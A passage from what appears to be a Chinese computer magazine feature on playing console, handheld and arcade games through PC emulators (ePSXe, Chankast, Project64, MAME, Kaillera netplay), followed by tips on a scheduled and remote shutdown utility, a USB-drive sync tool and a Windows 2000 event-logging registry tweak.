高级搜索：在“ENTER VALUE”下面的输入框中输入当前数值，比如现在的HP为24/30，就输入24，按回车，下方的“# RESULTS”后面的数值表示搜索到内存中有几个24（如果这个数值小于5，那就直接跳到第四步），随后按Esc回到游戏，和敌人打一仗，失掉一点HP或者喝一瓶药水回复HP，使HP的数值发生变化，比如打一仗后HP为22/30；按Esc调出菜单，再次选“CHEAT→SEARCH”，在“ENTER VALUE”下面的输入框中输入22，按回车，不断这样直到下方的“# RESULTS”后面的数值小于5。

低级搜索：第一次进入出现画面后没什么可以输入的地方，按Esc回到游戏，被敌人打一下，自己的HP或能量之类的少了再按Esc调出菜单，再次选“CHEAT→SEARCH”，这下画面中就有东西了，分别是“A. 当前值大于前面的数值”、“B. 当前值小于前面的数值”、“C. 当前值等于前面的数值”、“D. 当前值不等于前面的数值”（当不知道哪个大哪个小时选择），我们当然选择B，按回车，不断这样直到下方的“# RESULTS”后面的数值小于5。

- 第四步：选择“VIEW”，出现的画面有一些地址，比如有2个地址7E10AB，7E31C4，现在你并不知道哪个是当前HP的地址，只有一个一个试，选中7E10AB，按“ADD”，在“ENTER NEW VALUE”下方的输入框中输入HP的最大值9999，按回车，再按Esc回到游戏，看看当前的HP数值有没有变化，如果没有那也许不是这个地址，再像刚才那样搞定7E31C4。最后记得把无用的地址删除！

- 第五步：如果不想每次玩都这样来一次，就做这一步，点击“CHEAT→BROWSE”，在最下方的“AUTO-LOAD .CHT FILE AT GAME LOAD”这句话前打钩，并且按一下“SAVE”键（见图7）。

你可以自己将目录直接指向你下载ROM解压后的目录，这样比较方便（见图2）。建议统一将ROM文件移动到一个目录中会比较好管理。

- 3. 设定屏幕尺寸：点击“选项→缩放”可以设置窗口为默认窗口的1~4倍，当然要体会过去在电视机上玩的感觉，还是要通过“选项→全屏”来游戏，通过“选项→图形”来设定合适的分辨率（见图3）。

点击“文件→打开”，从文件列表中选一个ROM文件（后缀为.NES），看到旧日的《魂斗罗》、《超级玛丽》、《双截龙》、《功夫》，甚至是100合1、1000合1的FC卡游戏重现我们的面前，不禁喟叹岁月流转，世事变迁了。

### 小提示

大家是不是在玩FC模拟器的时候帧数一般都在60FPS？就算你使用了限制帧数也是60FPS，你会感觉不管在音乐和动作方面都比以前玩FC的时候稍微快了一点？点击“选项→游戏选项”，选择视频模式把NTSC改成PAL，其他不变，这样帧数就变成了50FPS，游戏的速度就和原来FC上一模一样了。

### FC的BT打法秀

网上流传着许多电玩高人用极变态的方法通关FC游戏的录像，比如“魂斗罗”不发一枪一人不死直捣黄龙等，下载后用VirtuaNES的“录像/放像”功能就可以观看，不过你必须拥有该游戏的ROM才行。

打开相应FC游戏，再依次点击“编辑→动画→重放”（见图4），之后选择相应录像文件（扩展名为.VMV）即可。

## 错过的超任再来重温

北京玩家熊涛：

应该是初中二年级的时候，九一年吧，和死党还在家中翻FC的老游戏勇者斗恶龙，突然有个哥们儿闯进来说体育场附近有家店可以玩SFC超任。当时同学中早已盛传SFC是比街机还强的电视游戏机！于是和死党直奔那家店而去。进去一看，早已人满为患，而且价格暴贵，2个人每小时12块，但是荧光屏里面无级赛车的急转弯、马达轰鸣，老板帅气地将游戏磁盘弹出换上的一个个更酷游戏，让我们完全无法按捺。当轮到我们的时候，我和同学二话不说就拿起了SFC的手柄，开始了一段新的游戏生涯。直到开始准备升高中，家长学校管得严了起来，各种补习开始了，我的SFC离我越来越远。

### 小知识

超任的任天堂

1990年，任天堂公司在FC的基础上再次创新，推出新一代家用游戏机SFC（Super Family Computer），也就是常说的超任游戏机，和FC游戏比起来，SFC游戏的画面和声音都大大地提升了一个层次，使得其游戏效果甚至可比1995、1996年时PC游戏的水平。SFC采用16位处理器，支持显示颜色为256色到32768真彩色，最大解析度为512×448。

## 我把PC变成PS游戏机了

银川玩家冯杰：街口TV游戏专卖店越开越多，每次经过看到大屏幕秀的新游戏，都让我觉得美得无与伦比，我那些画面粗糙的PC Game什么时候才能有这种效果，后来才知道那是PS上的《最终幻想7》的过场动画，后来也知道了出了PC版，九八年的时候我可怜的S3 Trio3D显卡想都不用想能玩那样的游戏。上大学后，寝室几个同学终于凑钱败了一台PS，我们终于知道了什么才是真正的游戏。

### 小知识

1994年底，SONY推出了新一代的家用游戏机PS（Play Station），采用32位CPU，带有光驱，支持摇杆、方向盘、钓鱼摇杆、跳舞机、吉他、光线枪等众多外围设备，技术和理念上全面赶超当时的所有其他游戏机型。SONY也因此跻身于游戏机领域的霸主行列。

### SONY公司

SONY公司推出了次世代主机PlayStation，开创了家用游戏机自FC以来的又一次革命，由此名声大振，得到诸多著名游戏厂商如史克威尔等公司的支持。后来推出PS2，现在已经实际成为游戏业界的老大。

网址：http://www.sony.com

### 史克威尔艾尼克斯公司

《最终幻想》系列游戏是史克威尔公司的经典之作，ENIX公司则是就因为《勇者斗恶龙》系列游戏作品而声名大振。

2003年4月1日，史克威尔被艾尼克斯吸收合并，成为史克威尔艾尼克斯公司，推出更多极酷游戏。

没有PS的朋友想一领真正Game的意义，一定要尝试在自己的电脑上模拟一把PS，PS模拟器从Bleem、VGS一路走来发展到ePSXe1.6已经可以完美支持PS的各种游戏了，PC可以完完全全被模拟成一台PS游戏机，如果你的显卡支持视频输出，将PS的画面转到32"的彩电上时，也许不会怀疑你是在玩TVGame了。PS模拟器ePSXe的配置相较之前机种的模拟器配置稍嫌复杂，现在跟大家讲解一下。

如果你的电脑能够接近或超越P4 1.8\GF4MX440 64MDDR\256DDR 266内存这样的配置，只要稍加优化，就能非常流畅地运行各种PS游戏。建议使用“配置向导”来选择相应的驱动插件，在选择每个插件的时候向导会有提示告知你根据自己的PC的配置应该选择哪个。下面着重说明一下几个重要的配置环节。

- 1. 显卡方面建议选用的是“Pete's OpenGL 插件 1.74”（见图8），而运行2D游戏建议大家选择“Pete's D3D Soft Driver 插件”或“P.E.Op.S. Soft Driver 1.16”（这个目前最强，有很多特效），各项配置请参照图9设置。
- 2. 音频设置，建议使用“Eternal SPU Plugin 1.41”，不过“Eternal SPU Plugin 1.30”也不错。“开启声音”、“开启CDDA音频”、“开启XA音频”，都选上，ePSXe如果播放动画的音频有断续，可以关闭一二项试试。
- 3. 光驱建议使用模拟器自带的“ePSXe CDR WNT/W2K核心1.5.2”。“选择光驱”就是选你的光驱所在盘符了，“开启光驱的子通道读取”选项后，如果出现不能正常读取的问题可以不选，不过一般不会的。“开启磁盘的子通道缓冲”一定要选，可以加快和稳定光驱到磁盘的数据传输，选了和不选有明显区别。
- 4. 有很多朋友在手柄的震动设置上有疑问，这里也简单说一下。

首先游戏要支持震动，在游戏中打开震动的选项，然后在震动的类型里按由上到下选：“类型:DX Joy1 → 大震动:恒量 → 小震动:正弦”。

如果在游戏的过程中手柄不能使用，就按键盘上的F5即可，不过前提是你在选项里要选上“数字/矢量(F5)”（见图10）。

### 小提示

★用转接口连接的仿PS手柄及北通等USB接口的震动手柄设置应该注意：大震动连续，小震动正弦，这样符合PS手柄的实际效果。但有的电脑手柄不支持正弦的效果（如国内最常见的北通野牛3）此时应关掉小震动。

另外还有个问题较常见，就是部分汉化的ePSXe不支持震动，怎么设也没用，推荐改用英文原版。

★BIOS用scph1001.bin（日版）或scph7502.bin（美版）兼容性最好。

### PS迷你游戏DIY

PS迷你版游戏的制作是旨在让游戏者用更小的空间保存自己游戏的备份，以及利用更小的硬盘空间更快的Loading速度在模拟器上玩。

PS迷你游戏的做法原理跟PC游戏硬盘版一样，要把PS游戏做成更小，就必须把游戏里面的动画，音乐，语音等文件进行删除或替换成更小的文件。

要做PS迷你版游戏，首先要认识PS游戏的结构，这样你才能知道哪些文件应该修改和哪些不能动的。一般来说，动画和音乐文件都是很大的，一般从数十M到百多M都有。所以去掉后整个PS游戏的容量也就减少了。

动画都是以.STR、.MOV结尾的，很多时都是放在根目录，或者在MOV、MOVIE、FMV之类的目录里面的。有时候也会以STR.01、STR.02、STREAM.DAT之类来命名的。如果怀疑某个文件是动画，最好是用一些PS媒体播放器，如PlaySTR、PSMPlay之类来播放一下。

音乐有时候也包括对话、评述等，都是以.XA、.STR、.BGM结尾的。文件多是放在根目录，或者XA，BGM之类的目录里面的。有时候也是以XA.01、BGM.01、MUSIC.DAT来命名。同样可以利用PS媒体播放器来检验一下。

还有一类文件是一些Dummy、Null文件，这类文件的具体作用不太清楚，但可能是用来填充ISO的，让游戏看起来更大。其实这些文件都是0字节或者重复字节的。一般情况下都可以删除。

根据不同的PS游戏文件结构，PS迷你游戏有几种不同的做法：

- 1. 从PS游戏光盘制作（去除音轨等）

第一步：把PS CD放进CD-ROM，运行CDRWIN，点击“Extract Tracks→Sectors”（见图11）。

第二步：如果该游戏有很多Audio Tracks（红色圈部分），就可以做成迷你光盘版了。从“Extract Mode...”选“Select Tracks”，然后选数据部分（绿色圈），接下来的步骤跟做完全版ISO是一样的了。

- 2. 从完全版的PS ISO制作

如果你拥有一个完全版的ISO，而这个ISO又是数据+Audio Tracks的，那么就很容易用软件把数据部分Extract出来。

要知道这个ISO是不是这种形式的，看看Cuesheet就可以了。如果该ISO是有很多Audio Tracks的，那么用记事本打开.CUE文件是类似这样的内容：

```
FILE "PSXISO.BIN" BINARY
TRACK 01 MODE2/2352
INDEX 01 00:00:00
TRACK 02 AUDIO
PREGAP 00:02:00
INDEX 01 10:45:26
... ...
```

要把数据部分提出来是很容易的，用DaemonTools Mount这个ISO，然后打开IsoBuster，读取DaemonTools虚拟光驱。就会见很多条Tracks了。选取第一道数据轨道就可以Extract出来了，要记得选“Extract RAW/2352”。

- 3. 重新制作PS ISO方法

要减少ISO的大小，就要将一些动画和音乐文件删除或更换了。一般来说，很少游戏允许直接删除这些文件的。多数情况下，动画文件要被替换成容量小点的动画。而音乐文件就可以换成空的文件，甚至可以删除不要。

空的文件的做法是建立一个新的.TXT文件，然后改成***.XA，***是要跟原游戏音乐文件名相同的。当然如果想要改掉文件的后缀名，你可以在DOS下改，或者把“我的电脑”菜单中“工具→文件夹选项→查看”中的一项“隐藏已知文件类型的扩展名”去掉后才可以在“我的电脑”或者资源管理器下改名。

动画文件一定要换成同一分辨率的。一般的动画都是320X240的，但也有其他很多不同的格式。在替换时要用同一分辨率，否则会出现一些奇怪的问题。分辨率的小的STR文件大家可以自己从一些其他的PS ISO找出来，甚至可以自己做一个，只要有未压缩的AVI就可以用转用工具转成STR了。

- 4. 目前还没有软件可以有效地直接删除ISO里面的东西从而缩小ISO的体积。那么，另一个方法就是把必需的文件重新制作一个ISO。

要想把文件做成一个PSX CD的ISO，就需要CDGEN/BUILDCD，但是这些软件比较难用，还有个类似的软件PSX CD Builder还不错，具体的操作大家请参照http://bbs.emu-zone.org/showthread.php?t=160342。

## 种种主机皆能模拟

桂林玩家国英：

《街霸III三度冲击》在DC上出现的时候，我只能在PS上看着我的《少年街霸III》叹息，我没有PS2，为什么不出PS版？还有诸多的好游戏像《塞尔达传说》等偏偏是单一机种的游戏，我只有一台主机无法玩到。我怎么才能用一台主机所有的TVGame呢？

### 小知识

世嘉（SEGA）公司

世嘉可以说是电子游戏业界中明星，各地的大型游乐场中到处可见该公司的产品。《VR特警》、《音速小子》、《樱花大战》成为风靡世界各地的游戏。世嘉游戏的多样性、精美的画面及高质量的音乐更是一直走在电子游戏业的前列。

网址：http://www.sega.com/

DC主机是SEGA公司于1998年末发布的32位家用游戏机，全名DreamCast。使用由CD介质改进的GD为游戏载体；CPU为180Mhz的SH4，内置128位FPU；显存8M，使用有损材质压缩方式可以达到最大1:8的压缩比；主内存16MB。特色外设为：带有液晶屏的VMS记忆卡、卡拉OK机、专用VGABOX、专用33k/56k调制解调器。

### DreamCast 实现梦的机器

DC模拟器ChankastAlpha去年才出现，目前官方最新版为0.25，已经有半年没更新了，模拟器作者可能已经放弃。此外还有一大堆非官方版本，都很不稳定，不推荐使用。目前DC模拟器已经能够比较正常地运行一部分DC游戏并且通关。不过大部分3D游戏都很慢，例如《DOA2》一般速度都不会超过正常的一半，几乎所有的游戏都会有BUG。

使用DC模拟器的必要条件：主频2GHz以上的CPU，内存256MB以上，显卡GF2MX以上。操作系统Windows 2000以上，9X/ME无法运行，Windows 2000需要先装ASPI驱动4.72，再安ASPI驱动4.60，推荐使用Windows XP，DX9.0以上，尽量使用最新显卡驱动。虚拟光驱推荐DaemonTools 3.29以前的版本，否则有可能出现“IO error”的提示。

ChankastAlpha0.25的使用方法与其他模拟器也很类似，下面简略说明：

- 第一步：模拟器主程序和BIOS文件（dc_flash.bin也不能少）需要放在一个文件夹里，第一次打开时，出现这个如图12的画面。安装过ASPI驱动的话，最上面的选“CDROM Interface aspi”，否则就选另一个。
- 第二步：选择“Input Interface by Elsemi”设置手柄，“Controller”使用手柄，“None”不用手柄，“VMS”是普通记忆卡，“VMS with LCD”是带LCD的记忆卡，“Rumble pack”是震动包。之后选OK，进入手柄设置界面，由于这个界面非常简单易懂，在这里就不多做介绍了。
- 第三步：注意“Configure Video（配置视频）”中的第2、3项是修正某些游戏中看不见选项之类的错误，第4项是3D画面不显示贴图（见图13）。再将“Cable Type（输出类型）”设置为NTSC。由于有些游戏不支持VGA，所以推荐NTSC。
- 第四步：格式化DC记忆卡文件：先在插件设置画面的手柄部分选择记忆卡，之后不加载游戏运行DC模拟器，选择右上那一项，选择一个记忆卡，会提示没格式化，选第二项，之后是第一项，之后一直按“确定”键，直至回到选择记忆卡的画面。接着使用引导盘：先载入DC引导盘镜像运行模拟器，出现金鹿画面时不要关闭模拟器，直接卸载引导盘，换成要引导的游戏镜像，完成。

## N64 让3D游戏飞起来

和任天堂其他有名的主机一样，N64模拟器的数量着实惊人，大概有40余种之多，不过真正有名的也就两个——Project64和1964，这里着重说说比较流行的Project64。

它是由Project64小组制作的插件型N64模拟器，长期以来一直占据着N64模拟器的霸主地位，虽一度有被1964赶超的趋势，但是在沉寂长达两年半后，PJ64在今年的愚人节上突然发布了最新版1.6（由于比较特殊，刚发布的时候很多人还不相信），确保其地位不被动摇，新版本较老版本有不少改进，官方主页如下：http://www.pj64.net/iedefault.htm

模拟器本身几乎没任何瑕疵，兼容性极佳，能运行98%以上的N64游戏，画面和音频模拟都很完美（这得益于有很多人帮助其不断完善插件，尤其是Rice），界面友好，使用简便（见图14）。关于N64模拟器使用的更详尽介绍，请参看http://bbs.emu-zone.org/showthread.php?t=138304。

除了上面介绍的DC和N64的模拟器，还有SS、MD、PCE和StepMania等家用机的各种模拟器，数不胜数，不少PC玩家在拥有主流的模拟器之后已经可以享用无数的TVGame了，而且从模拟器的使用中可以学到很多知识。

## 没钱买掌机 游戏一样玩

四川玩家汉宝：

我比较幸福了，繁重的课业结束之后家人也允许我好好Play一下PS，有时候他们也跟我一起上阵。玩得有点上瘾的时候，上课盼着下课，下课盼着回家，很想好好耍一把。一天突见同桌小S将头埋入桌上立着的课本之中，戴着耳机面目狰狞，十分投入，这是我第一次认识GBA，这个神奇的小东西可以让你随时随地融入超好玩的游戏之中。无论你是在无聊的行程当中还是如厕时，GBA都会陪伴你将它的快乐释放。如果没有GBA你只好在PC上领略GBA游戏的乐趣了。

1989年，任天堂公司发布了一款可以更换游戏卡的掌上游戏机——GameBoy，虽然它的黑白单色屏幕在现在看来太单调，但是它却开创了掌上游戏机领域的一块新天地。

1998年，任天堂推出了彩色的GameBoy游戏机，成为当时乃至现在仍然时尚的掌上游戏机。

2001年，任天堂再次重拳出击掌上游戏机领域，推出GameBoyAdvance（简称GBA），为掌上游戏机提供了更好的画面和声音支持。

GBA是上一代掌上游戏机的王者，一经推出没有任何悬念地战胜了所有的对手。

GBA有两种型号，早期的GBA和后期的GBA SP。GBA的最大缺点就是屏幕容易划伤和屏幕太暗，GBA SP完美的解决了这两个问题，但是价格有所提升。

VisualBoyAdvance是目前用得最多的GBA模拟器，最新版为1.80beta2（见图15），操作的方式与之前的FC模拟器相当类似，具体是操作就不详述了，大家可以到自己尝试掌握VBA的操作。

## 街机搬回家 天天玩不停

湖南玩家周严：

我高中的课余生活几乎都是在街机厅里度过的，因为性格比较沉默，没有什么朋友，只有在街机上才能感觉到自己不那么孤独，几乎大部分游戏都算高手，《侍魂》、《拳皇》等格斗游戏时常有高人过来挑战，打完了不...管不管胜负，多少都会有些惺惺相惜的感觉，让我觉得对手亦是朋友的感觉。如今工作了，没有时间徜徉在街机厅中，不知还有没有机会和街机高手在游戏中一决胜负。街机在PC上的模拟已经非常成熟，像MAME这样的模拟器已经能够模拟大部分街机游戏，新的游戏也在不断扩充之中，而且MAME通过Kaillera Server可以和世界各地的朋友联机，共享街机游戏的快乐。

小知识

CAPCOM公司

CAPCOM创立于1979年，最初名为“I.R.M”，是一家电器零售商。1983年公司正式更名为CAPCOM。CAPCOM这一名字的由来是“CAPSULE”(胶囊)和“COMPUTER”(电脑)的合成。CAPCOM公司制作了《1942》、《荒野大镖客》，相信这些FC游戏你不会陌生。1987年，CAPCOM推出《街头霸王》，该作的出现意味着2D格斗游戏这个类型真正成型。1996年开始，CAPCOM推出《生化危机》系列，其游戏也被拍成电影。

SNK公司

可以毫不夸张地说，SNK制作了有史以来街机上最好的格斗类游戏，《拳皇》系列理所当然地被公认为格斗类老大。此外，SNK制作的《侍魂》、《双截龙》、《合金弹头》系列也成为公认的经典。但是，SNK公司2000年被韩国某厂商收购，此后一直也没能再现之前的辉煌。

## MAME，街机我无所不能玩

MAME是Multiple Arcade Machine Emulator，也就是“多类型街机模拟器”的简称，由MAME小组开发，是一个完全开放源代码的模拟器。这是一个仍在不断更新、完善的模拟器，也是一个模拟街机游戏数量最多的模拟器——到目前支持超过2000个街机游戏，许多现在市面上已经绝迹的老游戏，已经或正准备在MAME上恢复青春。

由于MAME是在DOS下使用，不是很方便，需要使用前端工具，Windows界面的MAME32就直观好用的多了。基本的操作和设置与其他模拟器的相仿，稍微琢磨一下就可以学会使用，如果新手朋友还有困惑，可以到 http://bbs.emu-zone.org/showthread.php?t=159923 学习较详细的使用方法。

这里说一下MAME独具特色的作弊功能，在游戏进行中按下TAB键，可以看到有“Cheat”一项(见图16)，这是一个与FPE类似的修改工具，进入其二级菜单后，第一项“Load and/or enable a cheat”是载入已经预设的作弊选项，如果你在MAME目录下放有专门的作弊数据CHEAT.DAT文件，就可以载入其中对应该当前游戏的作弊项(一般有生命、法力、时间和爆弹无限，武器可选，跳关、对BOSS一击必杀、无敌等等，但不是所有的游戏都会有这么多选项，视游戏类型及作弊文件制作者能找到的地址多寡而定)，按左、右键激活之，用回车键查看更多内容。

小知识

CHEAT.DAT是有专人制作，并随着MAME的版本升级不断更新的，可以在这里找到 http://cheat.retrogames.com。如果没有这个文件或者文件内无对应当前游戏的数据，你可以自行寻找。常用FPE的玩家看到菜单中的“Start a new cheat search”、“continue search”这样的项目一定就会知道是什么意思，对的，我们可以像使用FPE一样来使用MAME这个内建的修改功能，找到相关地址后，还可以参考CHEAT.DAT内的数据格式，加入你自己的作弊码，这个功能使用起来非常简单和方便。

## 家里大战街机游戏，爽

模拟器联网基本用的都是Kaillera，而MAME32K是Kaillera官方根据原版MAME编写的专门用于联网的街机模拟器，玩起来也非常简单。

第一步：在联网之前先设置好你的模拟器，设置的方法和原版MAME基本一样，这里就不罗嗦了。所要说明的一点是，联网时无论你是1P还是2P、3P或者4P，键位都以你所设置的1P键位为主。

第二步：设置完成后，执行“File→Play Network Game”，出现如图17的窗口。



这就是Kaillera的主体界面，窗口分为几个部分，下面一一说明。

中间窗口主体为服务器列表，显示了服务器的详细信息，包括服务器名称、位置、Ping值、Kaillera版本、人数、游戏数和服务器IP，大家可以根据需要选择服务器进入，当然Ping值越低越好。

主体窗口的上方，为几个标签。可以按照需求分别点击，对服务器列表进行排序。

主体窗口的下方，分别为使用者的名字(Username)和联网的方式(Connection type)，自己根据情况变更即可。

第三步：选定服务器进入后，出现如图18的新窗口。窗口右边为使用者列表；中间的“Chat”框方便玩家进行交流；下方为建立好的游戏列表，你可以加入(选中点“Join”，或双击)已建好的游戏，也可以自己新建(Creat New Game)一个新游戏等别人加入，一切就绪后主机点“Start Game”就行，主机有踢人(Kick)的权力。



## MAME32K 还有几项特殊的功能:

- 网战录像。主机建好游戏后，按住Ctrl+Shift(此为默认键位，当然你也可以自己改，下面所说的均是默认键位)，再点“Start Game”。网战录像回放时选择“File”菜单中的“回放Kaillera”，点击“Playback Kaillera Input”即可。
- 传送DIP设置。DIP设置即机台设置，可以设置游戏难度，游戏人数，投币情况，NeoGeo游戏可以设置家用机或街机模式等。游戏开始后，按Tab键进入Dip Switches，在里面设置好后，按住左SHIFT+F10传输DIP设置，然后按F3重启游戏即可。
- 热键。虽然通过合理的设定，原版MAME同样可以达到热键的效果，不过MAME32K方便了大众，在键位设置里面可以直接找到相关的设置。
- Reset。万一发生不同步现象(这种情况发生的概率在MAME32K里很小)，可通过按F3重启游戏达到恢复同步的效果。一般模拟器要是不同步的话，基本只能重启模拟器了，再不行就只能重启电脑了。

## TVGame排好队 全都会有模拟器

本期特别话题我们介绍比较流行的TVGame、掌机、街机的模拟器，而最新的主机还在模拟的研究当中，现在都还在比较初级的水平，但相信不远的将来，PC玩家朋友们就能享用主流主机的模拟器了。

## 三大主机的模拟

三大主机(PS2、XBOX和NGC)的模拟进度一向是大家最关心的，就目前的情况来说，三大主机模拟器都只停留在很初级的水平。因此，这边就不介绍模拟器的使用了，重点放在三大主机模拟情况的简介上。

首先说说大家最关心的PS2模拟情况。PS2模拟器的完成度相对来说是很落后的，不仅许多游戏画面有严重错误，而且速度基本都不足10帧，多数情况在5帧以下，因此，要用模拟器玩PS2游戏是绝对不现实的，模拟器目前只能看看游戏贴图而已。

推荐模拟器：Pcsx2 0.8 官方主页：http://www.pcsx2.net/

XBOX模拟器(主要是Cxbx)的情况比PS2好不了多少，目前的话，只有《恐龙猎人》能勉强运行。另外，这个模拟器也很久没放出新版本了，推测有两种可能：要么是作者遇到了瓶颈，没法继续下去，要么就是模拟器被微软收购了。

推荐模拟器：Cxbx 0.8.0-Pre2 官方主页：http://www.caustik.com/cxbx/

NGC模拟器的完成度在三大主机中是最高的，但这只是一个相对的说法，如果你的CPU够强，运行部分游戏可能可以达到二、三十帧；而对于泡泡龙这样的2D游戏可以到满帧！总体来说，NGC模拟器的完成度仍然是很低的，就目前最受欢迎的《生化危机》来说，平均帧数在0~4帧，配置再高也没用。

推荐模拟器：Dolphin v1.02 官方主页：http://www.dolphin-emu.com/

## 最新掌机模拟前瞻

NDS是GBA的下一代掌机，全称Nitindo Double Screen，特点为双屏幕，下屏幕为触摸屏，屏上附有耐久度高的保护罩，拥有麦克风和无线机能，可以实现互联网音频聊天，最大16台DS无线联机。

目前NDS没有任何可以运行商业游戏的模拟器，只有几个刚开始开发的。

由SONY推出的掌上游戏机PSP，机能十分强大，除了强大的游戏平台以外，还拥有媒体播放能力，专用UMD影碟。是NDS强有力的竞争者。目前PSP只是DUMP出少数游戏的ISO，没有任何具有实际或者象征意义的模拟器，倒是PSP上的GB模拟器已经出现，不过目前还只是初级阶段。

## 这样关机才有用 才够酷！

许多时候我们希望电脑在完成工作后(比如整理磁盘、下载完软件后)能够自动关机，或者你身处异地(或在局域网中)，只要使用一台上了网的电脑或支持WAP的手机便能让其他电脑关机，是不是很方便？
相信你也知道有不少关机软件，Windows XP中就内置有Shutdown.exe，但它是一个命令行工具，使用起来并不那么方便，而且实现定时关机、倒计时关机等都不太容易，因此，我们经过千挑万选，为大家首先推荐免费、小巧的Switch Off。它能够：
★定时自动执行关机、重新启动、断开当前网络连接，锁定、注销等操作；
★快速通过浏览器或手机来远程控制安装有Switch Off的电脑进行关闭、重启等一系列操作，同时也支持命令行参数。

Switch Off小档案
软件版本:2.3
软件大小: 63KB
软件性质:免费软件
适用平台:Windows 9x/Me/NT/2000/XP
下载地址:http://www.onlinedown.net/soft/35704.htm

## 快速上手:每天 22 点定时自动关机

第一步:Switch Off运行后，会以图标形式驻留在系统托盘处，双击图标弹出Switch Off主界面(见图1)，在“计时器设置”项下设置“周期”为“每天”，“时间”则改为22:00，接着在“动作”栏中“关机”，为避免某些程序不能正常退出，导致关机失败，还要选中“强制关闭应用程序”。



图 1 首先要从主界面 "Option → Appearence" 中选择 "简体中文" 来完成汉化

小提示
Switch Off的“周期”选择很多，比如:每周、倒计时、特定时间等。同时还能执行不同操作，比如:重新启动、注销、锁定、挂断、待机和休眠。

第二步:为了让Switch Off能自动随系统启动并生效，可点击“选项”按钮进入软件的设置窗口，在“常规”选项卡中的“启动”项下选中“以为系统服务方式运行”(见图2)。



图2

第三步:完成设置后，单击“开始”按钮后任务生效。

## 进阶应用:远程关闭电脑

第一步:在局域网中，如果想远程关闭、重启另外一台电脑，并且在操作前发送信息提醒对方的话，可以首先在要控制的电脑上安装Switch Off，然后进入其设置窗口的“远程控制”选项卡，勾选“启用网页控制界面”、“允许远程控制的权限”，并且设置用户名和密码，最后勾选“当用户使用时提示输入密码”(见图3)。



图3

小提示
你可以在Switch Off安装目录下找到名为pub的文件夹，修改编辑index.htm和用于移动电话浏览的WML扩展名的网页，让其更美观。
第二步:现在就可以打开IE，输入要操作电脑的IP地址，比如:http://192.168.0.206:8000，很快就会出现如图4所示内容，选择要执行的操作，按下“OK”按钮即可。

小提示
其实Switch Off也能通过Internet来远程控制电脑，不过需要事先知道对方IP地址。



图4

## 用命令行来操作电脑

Switch Off同样也支持命令行参数，所以可以把它用到批处理文件中，实现多任务自动完成，其命令行参数基本用法为:swoff.exe [filename] [options]，而参数含义分别为:

| 参数 | 说明 | 参数 | 说明 |
| :--- | :--- | :--- | :--- |
| /hide | 启动后自动最小化到系统托盘 | /wait:N | 显示N秒的警告信息； |
| /shutdown | 关机 | /restart | 重启 |
| /logoff | 注销 | /hangup | 挂断网络连接； |
| /standby | 待机 | /hibernate | 休眠 |
| /fast restart | 快速重启 (Windows 98/Me) | /force | 强制执行上面所列动作 |

小提示
网络断流后自动关机
许多朋友经常会在晚上安排下载任务，并利用下载软件的自动关机功能让其在完成下载后关机，但如果出现网络断流问题，那可就惨了，软件没下载下来，网费却白白支出了。对于FlashGet，可以在“工具→选项→连接→限制→重试的次数”中设置一个较小的次数，比如10次，这样当10次后都不能找到下载资源时，FlashGet就会替你关机了(前提是在工具栏上按下了“关机”按钮)，而像比特精灵之类的下载软件一般都有这样的选项。
（飘零雪）

## 让你的闪盘聪明起来

闪盘便于携带、安装使用简单，在Windows 2000以上操作系统不用安装驱动，这使得很多朋友早已用它取代软盘了。特别是现在闪盘容量也一直在飙升，128MB已经属于小容量，闪盘能做的事情越来越多。但是，当我们在两台电脑间传递文件的时候，每次都要执行这样一个重复操作：进入文件夹，选中一些文档，复制，再到目的地粘贴。虽然可以在鼠标右键中用“复制到”选项减少步骤，但还是比较麻烦。如果有重复文件，还要按一下“确定”来确认覆盖的操作，显得很麻烦。有没有办法让闪盘一插入电脑，文件就自动同步呢？

Pen Drive Manager小档案
软件版本:1.0.0.35 软件大小:999KB
软件性质:共享软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.sotcom.com/pendrivemanager/PDM_setup.exe
软件备注:它是一个共享软件，你只能免费使用30天，30天之后需要注册。

Pen Drive Manager是一个专门为闪盘设计的小软件，它可以在你插入闪盘后自动帮你完成复制任务。进入主界面后，我们只需要两个步骤就可以完成设置。

第一步:在主界面的“Drive Management”中，选中你的闪盘。通常情况下这里闪盘名称由一个串号和闪盘盘符共同组成。在右侧窗口中选择插入闪盘后的操作，一共有四种方式(见图)。

- ★ Copy all files to a new folder(复制所有文件到硬盘中一个新的文件夹)
- ★ Copy those files that changed(只复制改变的文件)
- ★ Synchronise drive and folder contents(同步驱动器和文件夹内容)
- ★ Do thing(不执行任何操作)

含义都说得很清楚了，你可以根据自己的需要选择适合的工作方式。值得注意的是，在第三种方式(同步)中，同步的方向是不确定的，也就是说，假如同样一个文件在硬盘的同步文件夹和闪盘同时存在，那么文件修改时间比较新的文件将会覆盖较旧的版本。因此，使用这款软件同步时，电脑的时间应该比较准确，不要有太大出入。

小提示
这里需要提示一下，在同步方式中，下方还有一个“Delete files that have been removed”选项，勾选它之后，无论是本地硬盘还是闪盘删除了某个文件，同步时都会在另一个位置删除相应文件。

第二步:点一下“Apply”按钮，所选项就会生效。今后插入闪盘，再也不用手工去复制文件了，相当方便。注意硬盘上文件夹中的文件不要过大，否则超出闪盘容量就无法同步了。
（LX）



## 打开Windows的神秘监听器

在你离开宿舍、办公室之后，你可能会担心你的电脑是否被其他人动过；你可能一直找不出电脑关机速度慢的原因所在。如果没有专门安装控制、监测软件，这些问题就真的无从解决吗？并非如此，在Windows 2000中已经有了很详细的监听器，它可以帮你检查谁登录了你的电脑，谁在开机、关机，还能找出像关机速度慢这类问题的解决方法。

- 第一步：打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system]，在里面建立一个名为“verbose status”的DWORD值，然后将它的值设为1。
- 第二步：还是在这个位置，检查一下有没有“Disable StatusMessages”这个键值，如果有，将它的值修改为0，或者干脆删除它(见图1)。
- 第三步：关闭注册表编辑器，重启电脑。进入“开始→控制面板→管理工具→事件查看器”，然后点击“系统”，你就会看到更多内容了。用户登录、开机、关机等信息，都会有在这里得到体现。



实例：给你“功力”增强的事件查看器
在进行上述修改前，事件查看器具有较低的查看级别，一些事件不会被记录下来。修改后，可以更详细地了解系统状况。当Windows 2000关机速度缓慢时，只要进入“开始→控制面板→管理工具→事件查看器”，点一下“应用程序日志”，这时就会看到详细的故障信息，如图2。



经过分析，我们得出结论：这是由于配置文件卸载出错造成的关机速度缓慢，我们曾经2004年第11期介绍过它的解决方法：只要安装一个微软出的小软件即可解决问题。(下载地址：http://download.microsoft.com/download/a/8/7/a87b3d05-cd04-4743-a23b-b16645e075ac/UPHClean-Setup.msi)。

小提示
